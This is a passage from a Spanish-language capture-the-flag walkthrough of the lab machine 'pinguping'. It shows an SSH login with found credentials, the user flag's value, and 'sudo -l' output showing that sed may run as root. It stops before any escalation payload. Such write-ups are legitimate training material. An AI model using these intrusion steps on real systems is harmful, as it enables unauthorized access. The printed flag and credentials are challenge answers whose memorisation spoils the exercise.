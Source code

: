 Excelente, dentro de secretito encontramos las credenciales de un usuario que podriamos probar para conectarnos al objetivo.

## 4. Acceso al Objetivo

### 4.1 Conexión SSH

Con el usuario obtenido, probaremos la conexión SSH al objetivo, sabiendo que tenemos el servicio y el puerto disponibles.

`usuario:secretote` `contraseña:GraciasPorVenirAhoraVayase `

```bash
┌──(root㉿V4lcyfer)-[/home/kali]
└─# ssh secretote@192.168.1.14 
The authenticity of host '192.168.1.14 (192.168.1.14)' can't be established.
ED25519 key fingerprint is SHA256:occn1S8ce6/OTS6AMuQ/lwYzKsO7SVkN2tJuUfHQ5/A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.14' (ED25519) to the list of known hosts.
secretote@192.168.1.14's password: 
Linux pinguping 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
secretote@pinguping:~$ 
```

### 4.2 Primera flag user.txt

Buscaremos la primera flag.

```bash
secretote@pinguping:~$ ls
user.txt
secretote@pinguping:~$ cat user.txt 
753a3e39fde0e31a5e763384d9a1df87  
```

`753a3e39fde0e31a5e763384d9a1df87`

## 5. Escalamiento de Privilegios

### 5.1 Somos root

Para obtener privilegios de root primero debemos saber cuales son los comandos que estamos autorizado a ejecutar con permisos elevados para esto nos ayudamos con el comando sudo.

```bash
secretote@pinguping:~$ sudo -l
[sudo] contraseña para secretote: 
Matching Defaults entries for secretote on pinguping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User secretote may run the following commands on pinguping:
    (ALL : ALL) /usr/bin/sed
```
